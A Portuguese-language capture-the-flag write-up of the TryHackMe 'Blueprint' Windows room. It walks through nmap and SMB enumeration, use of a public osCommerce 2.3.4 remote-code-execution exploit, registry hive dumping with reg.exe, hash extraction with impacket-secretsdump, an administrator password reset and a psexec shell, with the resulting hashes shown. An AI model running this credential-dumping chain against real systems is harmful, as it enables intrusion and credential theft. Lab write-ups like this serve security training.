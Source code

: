 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - Blueprint - Fácil
date: 2024-02-12 22:35:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, windows, web, facil, impacket, crackmapexec]     # TAG names should always be lowercase
show_image_post: true
---
```


![Logo](/assets/img/blueprint.png){: w="100" h="100" .left}

---
# **CTF - Blueprint**
---
---
## **Enumeração**


### nmap

```shell
╭─      ~/thm/blueprint        INT ✘  33s 
╰─ sudo nmap  -Pn -sV -sS  --min-rate 5000 -stats-every 7s -p- 10.10.233.217 -oN nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-07 05:13 -03
Warning: 10.10.233.217 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.233.217                              
Host is up (0.22s latency).                                              
Not shown: 40141 filtered tcp ports (no-response), 25387 closed tcp ports (reset)      
PORT     STATE SERVICE      VERSION                                        
80/tcp   open  http         Microsoft IIS httpd 7.5            
135/tcp  open  msrpc        Microsoft Windows RPC                
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
8080/tcp open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 149.70 seconds
```
{: .nolineno }



Porta 8080 e 443  index of  

![alt text](/assets/img/blueprint1.png)

### crackmapexec, enum shares e users smb

```shell
╰─ crackmapexec smb 10.10.233.217 -u 'anonymous' -p '' --shares --users
SMB         10.10.233.217   445    BLUEPRINT        [*] Windows 7 Home Basic 7601 Service Pack 1 (name:BLUEPRINT) (domain:BLUEPRINT) (signing:False) (SMBv1:True)
SMB         10.10.233.217   445    BLUEPRINT        [+] BLUEPRINT\anonymous: 
SMB         10.10.233.217   445    BLUEPRINT        [+] Enumerated shares
SMB         10.10.233.217   445    BLUEPRINT        Share           Permissions     Remark
SMB         10.10.233.217   445    BLUEPRINT        -----           -----------     ------
SMB         10.10.233.217   445    BLUEPRINT        ADMIN$                          Remote Admin
SMB         10.10.233.217   445    BLUEPRINT        C$                              Default share
SMB         10.10.233.217   445    BLUEPRINT        IPC$                            Remote IPC
SMB         10.10.233.217   445    BLUEPRINT        Users           READ            
SMB         10.10.233.217   445    BLUEPRINT        Windows                         
SMB         10.10.233.217   445    BLUEPRINT        [-] Error enumerating domain users using dc ip 10.10.233.217: socket connection error while opening: [Errno 111] Connection refused
SMB         10.10.233.217   445    BLUEPRINT        [*] Trying with SAMRPC protocol
SMB         10.10.233.217   445    BLUEPRINT        [+] Enumerated domain user(s)
SMB         10.10.233.217   445    BLUEPRINT        BLUEPRINT\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.233.217   445    BLUEPRINT        BLUEPRINT\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.233.217   445    BLUEPRINT        BLUEPRINT\Lab     
```
{: .nolineno }

## **Acesso**

Acessando a pasta http://10.10.109.167:8080/oscommerce-2.3.4/catalog/
Contém um site de ecommerce, resolvi pesquisar `oscommerce-2.3.4 exploit`, optei por usar esse <https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution>

### Exploit

Ao executar o exploit recebi uma shell com usuário: `nt authority\system` (privilégio de admin)
Essa shell é bem limitada, ficamos presos nesse diretório.
Então fiz uma reverse powershell usei a powershell base64 daqui <https://n00br00t.github.io/sh/>

![alt text](/assets/img/blueprint2.png)

### Dump hashs

Dumpei as hashs com os comandos abaixo ja deixando na pasta do xampp pra baixar via browser.

`reg.exe save hklm\sam C:\xampp\htdocs\oscommerce-2.3.4\sam.save`  
`reg.exe save hklm\security C:\xampp\htdocs\oscommerce-2.3.4\security.save`  
`reg.exe save hklm\system C:\xampp\htdocs\oscommerce-2.3.4\system.save`  

Feito download dos arquivos pra minha máquina.

### impacket-secretsdump

Usando impacket pra pegar as hashs dos arquivos acima

```shell
╭─      ~/thm/blueprint         2 ✘ 
╰─ impacket-secretsdump  -sam sam.save -system system.save -security security.save LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x147a48de4a9815d2aa479598592b086f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4b360237b86b3290afd75586bf6b3ac6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
pentest:1002:aad3b435b51404eeaad3b435b51404ee:4b360237b86b3290afd75586bf6b3ac6:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword 
(Unknown User):malware
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x9bd2f17b538da4076bf2ecff91dddfa93598c280
dpapi_userkey:0x251de677564f950bb643b8d7fdfafec784a730d1
[*] Cleaning up... 
```
{: .nolineno }

## Segundo método
### Dump hashs
A outra forma é alterar a senha do administrador e dumpar via crackmapexec smb

Alterei a senha com: `net user administrator senha123`

Com crackmap dumpei as hashs via smb usando credenciais de admin
![alt text](/assets/img/blueprint4.png)

### impacket-psexec

Conectando via impacket-psexec

```shell
╭─      ~/tools        
╰─ impacket-psexec ./administrator:'senha123'@'10.10.233.217'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.233.217.....
[*] Found writable share ADMIN$
[*] Uploading file fPMoAJBn.exe
[*] Opening SVCManager on 10.10.233.217.....
[*] Creating service fSnp on 10.10.233.217.....
[*] Starting service fSnp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32> 
```
{: .nolineno }
### Flag Administrator
![alt text](/assets/img/blueprint5.png)  

Usei o crackstation pra crackear a hash
![alt text](/assets/img/blueprint6.png)

**Conhecimento adquiridos:**
 - Dump de HASHS via reg.exe